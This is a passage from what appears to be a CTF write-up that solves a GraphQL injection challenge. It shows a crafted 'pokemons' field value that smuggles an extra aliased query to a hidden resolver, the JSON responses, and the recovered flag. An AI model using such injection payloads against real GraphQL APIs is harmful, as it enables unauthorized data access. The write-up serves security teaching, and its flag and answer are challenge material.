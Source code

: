 **Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b": "Flag Not Here"
    }
  }
}
```

Nope.

After trying all those `token` fields, we can find that **the last `token` field** contains the flag:

```json
{
  "pokemons": [
    "anything\"){id},injected_query:digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\",name:\"Flagmon\"){tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e": "cuhk24ctf{WowoW_u_know_gwAphQL_pitty_well_Want_to_say'Congratuwulations_\"hacker\"!'-\\_/-_for_finding_Fa1gm0n}"
    }
  }
}
```

> Note: Remember to unescape the JSON string. [CyberChef](https://gchq.github.io/CyberChef/#recipe=Unescape_string()&input=Y3VoazI0Y3Rme1dvd29XX3Vfa25vd19nd0FwaFFMX3BpdHR5X3dlbGxfV2FudF90b19zYXknQ29uZ3JhdHV3dWxhdGlvbnNfXCJoYWNrZXJcIiEnLVxcXy8tX2Zvcl9maW5kaW5nX0ZhMWdtMG59) can help you for that.

- **Flag: `cuhk24ctf{WowoW_u_know_gwAphQL_pitty_well_Want_to_say'Congratuwulations_"hacker"!'-\_/-_for_finding_Fa1gm0n}`**

## Conclusion

What we've learned:

1. GraphQL injection and enumeration